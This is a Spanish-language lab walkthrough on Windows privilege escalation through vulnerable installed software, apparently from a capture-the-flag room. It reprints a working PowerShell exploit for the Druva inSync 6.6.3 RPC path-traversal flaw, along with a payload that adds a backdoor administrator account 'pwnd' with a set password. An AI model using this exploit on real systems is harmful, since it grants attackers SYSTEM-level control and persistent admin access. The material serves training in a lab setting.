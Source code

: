 # Abusing vulnerable software

### Unpatched Software

El software instalado en el sistema de destino puede presentar varias oportunidades de escalada de privilegios. Al igual que con los controladores, es posible que las organizaciones y los usuarios no los actualicen con tanta frecuencia como actualizan el sistema operativo. Puede utilizar la `wmic` herramienta para enumerar el software instalado en el sistema de destino y sus versiones. El siguiente comando volcará la información que puede recopilar sobre el software instalado (puede tardar alrededor de un minuto en finalizar):

```shell-session
wmic product get name,version,vendor
```

Recuerde que es posible que el `wmic product` comando no devuelva todos los programas instalados. Dependiendo de cómo se instalaron algunos de los programas, es posible que no aparezcan aquí. Siempre conviene comprobar los accesos directos del escritorio, los servicios disponibles o en general cualquier rastro que indique la existencia de software adicional que pueda resultar vulnerable.

Una vez que hayamos recopilado información sobre la versión del producto, siempre podremos buscar exploits existentes en el software instalado en línea en sitios como [exploit-db](https://www.exploit-db.com/) , [pack storm](https://packetstormsecurity.com/) o el antiguo [Google](https://www.google.com/) , entre muchos otros.

Usando wmic y Google, ¿puedes encontrar una vulnerabilidad conocida en algún producto instalado?

### Case Study: Druva inSync 6.6.3

El servidor de destino ejecuta Druva inSync 6.6.3, que es vulnerable a la escalada de privilegios, según informó [Matteo Malvica](https://www.matteomalvica.com/blog/2020/05/21/lpe-path-traversal/) . La vulnerabilidad es el resultado de un parche incorrecto aplicado sobre otra vulnerabilidad reportada inicialmente para la versión 6.5.0 por [Chris Lyne](https://www.tenable.com/security/research/tra-2020-12) .

El software es vulnerable porque ejecuta un servidor RPC (llamada a procedimiento remoto) en el puerto 6064 con privilegios de SISTEMA, al que se puede acceder únicamente desde localhost. Si no está familiarizado con RPC, es simplemente un mecanismo que permite que un proceso determinado exponga funciones (llamadas procedimientos en la jerga de RPC) a través de la red para que otras máquinas puedan llamarlas de forma remota.

En el caso de Druva inSync, uno de los procedimientos expuestos (específicamente el procedimiento número 5) en el puerto 6064 permitía a cualquiera solicitar la ejecución de cualquier comando. Dado que el servidor RPC se ejecuta como SISTEMA, cualquier comando se ejecuta con privilegios de SISTEMA.

La vulnerabilidad original reportada en las versiones 6.5.0 y anteriores permitía ejecutar cualquier comando sin restricciones. La idea original detrás de proporcionar dicha funcionalidad era ejecutar de forma remota algunos archivos binarios específicos proporcionados con inSync, en lugar de cualquier comando. Aún así, no se realizó ninguna verificación para asegurarlo.

Se emitió un parche, donde decidieron verificar que el comando ejecutado comenzara con la cadena `C:\ProgramData\Druva\inSync4\`, donde se suponía que estaban los binarios permitidos. Pero claro, esto resultó insuficiente ya que simplemente se podía realizar un ataque de recorrido de ruta para evitar este tipo de control. Supongamos que desea ejecutar `C:\Windows\System32\cmd.exe`, que no está en la ruta permitida; simplemente puede pedirle al servidor que se ejecute `C:\ProgramData\Druva\inSync4\..\..\..\Windows\System32\cmd.exe`y eso omitirá la verificación con éxito.

Para crear un exploit que funcione, debemos entender cómo hablar con el puerto 6064. Afortunadamente para nosotros, el protocolo en uso es sencillo y los paquetes que se enviarán se muestran en el siguiente diagrama:

<figure><img src="../../.gitbook/assets/20231009174335.png" alt=""><figcaption></figcaption></figure>

El primer paquete es simplemente un paquete de saludo que contiene una cadena fija. El segundo paquete indica que queremos ejecutar el procedimiento número 5, ya que este es el procedimiento vulnerable que ejecutará cualquier comando por nosotros. Los dos últimos paquetes se utilizan para enviar la longitud del comando y la cadena de comando que se ejecutará, respectivamente.

Publicado inicialmente por Matteo Malvica [aquí](https://packetstormsecurity.com/files/160404/Druva-inSync-Windows-Client-6.6.3-Privilege-Escalation.html) , el siguiente exploit se puede utilizar en su máquina de destino para elevar los privilegios y recuperar el indicador de esta tarea. Para su comodidad, aquí está el código del exploit original:

```powershell
$ErrorActionPreference = "Stop"

$cmd = "net user pwnd /add"

$s = New-Object System.Net.Sockets.Socket(
    [System.Net.Sockets.AddressFamily]::InterNetwork,
    [System.Net.Sockets.SocketType]::Stream,
    [System.Net.Sockets.ProtocolType]::Tcp
)
$s.Connect("127.0.0.1", 6064)

$header = [System.Text.Encoding]::UTF8.GetBytes("inSync PHC RPCW[v0002]")
$rpcType = [System.Text.Encoding]::UTF8.GetBytes("$([char]0x0005)`0`0`0")
$command = [System.Text.Encoding]::Unicode.GetBytes("C:\ProgramData\Druva\inSync4\..\..\..\Windows\System32\cmd.exe /c $cmd");
$length = [System.BitConverter]::GetBytes($command.Length);

$s.Send($header)
$s.Send($rpcType)
$s.Send($length)
$s.Send($command)
```

Puede abrir una consola Powershell y pegar el exploit directamente para ejecutarlo (el exploit también está disponible en la máquina de destino en `C:\tools\Druva_inSync_exploit.txt`). Tenga en cuenta que la carga útil predeterminada del exploit, especificada en la `$cmd`variable, creará un usuario nombrado `pwnd`en el sistema, pero no le asignará privilegios administrativos, por lo que probablemente querremos cambiar la carga útil por algo más útil. Para esta sala, cambiaremos la carga útil para ejecutar el siguiente comando:

```powershell
net user pwnd SimplePass123 /add & net localgroup administrators pwnd /add
```

Esto creará un usuario `pwnd`con una contraseña `SimplePass123`y lo agregará al grupo de administradores. Si el exploit tuvo éxito, debería poder ejecutar el siguiente comando para verificar que el usuario `pwnd`existe y es parte del grupo de administradores:

Símbolo del sistema

```shell-session
PS C:\> net user pwnd
User name                    pwnd
Full Name
Account active               Yes
[...]

Local Group Memberships      *Administrators       *Users
Global Group memberships     *None
```

Como último paso, puedes ejecutar un símbolo del sistema como administrador:

<figure><img src="../../.gitbook/assets/20231009174402.png" alt=""><figcaption></figcaption></figure>
